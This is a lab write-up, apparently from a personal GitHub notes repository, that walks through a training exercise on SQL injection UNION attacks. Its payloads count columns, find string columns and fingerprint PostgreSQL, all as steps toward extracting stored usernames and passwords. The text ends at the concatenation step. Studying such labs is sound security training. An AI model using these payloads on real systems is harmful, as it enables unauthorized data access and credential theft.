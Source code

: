 # SQL injection UNION attack, retrieving multiple values in a single column
- SQL injection vulnerability in the product category filter.
- use a UNION attack to retrieve data from other tables.
- The database contains a different table called users, with columns called username and password.
# Goal
- To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.
# Solving The lab
- finding number of columns
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
- after trying payloads we fnd that db has 2 columns
- now to determining datatypes of columns or which columns has string datatype
```
' UNION SELECT 'a',NULL--
' UNION SELECT NULL,'a'--
```
- second payload works and the second column is the string datatype
- now to ouput data from columns we cna use 2 methods first one is to ouput each column alone and second method is to concatenate the results
- first we need to determine db version to procced with the concatenation
- we try differnet payloads
```
' UNION SELECT NULL,@@version--   Microsoft/MYSQL
' UNION SELECT NULL,version()--   PostgreSQL
```
- the second payload works and its a postgresql db
- postgresql has 2 differnet ways of concatenation
```
'foo'||'bar'
'foo' 'bar'
```
